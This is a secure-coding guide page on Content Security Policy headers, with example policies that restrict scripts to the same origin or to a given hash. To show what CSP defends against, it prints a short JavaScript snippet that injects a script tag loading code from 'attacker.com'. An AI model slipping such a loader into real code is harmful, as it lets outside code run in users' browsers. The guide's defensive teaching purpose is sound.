 Content Security Policy
=======================

[Content Security Policy][1] (CSP) is W3C Candidate Recommendation introduces to
prevent [Cross-Site Scripting attacks][2], click jacking and other code
injection attacks.

If you have already read [Dependencies][3] and [Interpreted Code Integrity][4]
general coding practices, you will see that they share some security concerns.

Starting with [Dependencies][3]. As our applications have dependencies,
dependencies also have their own dependencies. How do we know them all?

Our applications are build server-side and then sent to the client where they
run and live most of the execution time. How do they know what is running there?

Let's assume that you do not have SRI in place (if so, please read the
[Interpreted Code Integrity][4] section) and you're loading JavaScript resources
from a CDN. How to you know that these JavaScript resources do only download
known dependencies and nothing else? What if the CDN gets compromised and one of
the JavaScript resources your application downloads, is added a malicious
payload. Something like the one below in the middle of a huge library.

```javascript
var s = document.createElement(s);
s.src='//attacker.com/malicious.js';
document.body.appendChild(s);
```

`Content-Security-Policy` is an HTTP response header which allows the server to
tell the web browser what dynamic resources are allowed to load.
By "dynamic resources" you should consider JavaScript scripts, stylesheets,
images, XMLHttpRequests (AJAX), WebSockets or EventSource, fonts, objects
(`<object>`, `<embed>` or `<applet>`), media (`<audio>` and `<video>`), frames
and forms.

You're recommended to read the official [Content Security Policy Reference][1]
so that you can take advantage of all its features.

For completeness the following examples, locks your application resources to the
same origin policy: resources are only allowed to load when they come from your
application domain (`self`).

```
Content-Security-Policy: default-src 'none'; script-src 'self'; connect-src 'self'; img-src 'self'; style-src 'self';
```

As said before, CSP also fits OWASP recommendations for [Interpreted Code
Integrity][4] overlapping SRI capabilities. For example, a hash can be provided
to `script-src` allowing it to run if and only if it matches give hash

```
Content-Security-Policy: script-src 'sha256-qznLcsROx4GACP2dm0UCKCzCG+HiZ1guq6ZZDob/Tng='
```

Although CSP is not bullet proof and it may look hard to manage, you should
definitely apply it on your web applications.

[1]: https://content-security-policy.com/
[2]: ../output-encoding/README.md
[3]: ./dependencies.md
[4]: ./interpreted-code-integrity.md
